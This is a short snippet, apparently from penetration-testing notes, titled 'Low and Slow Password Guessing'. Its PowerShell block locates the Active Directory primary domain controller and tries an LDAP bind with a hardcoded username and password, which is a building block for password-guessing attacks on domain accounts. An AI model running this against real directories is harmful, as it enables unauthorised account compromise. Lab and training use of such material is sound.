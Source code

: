 ## Low and Slow Password Guessing

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "Qwerty09!")
```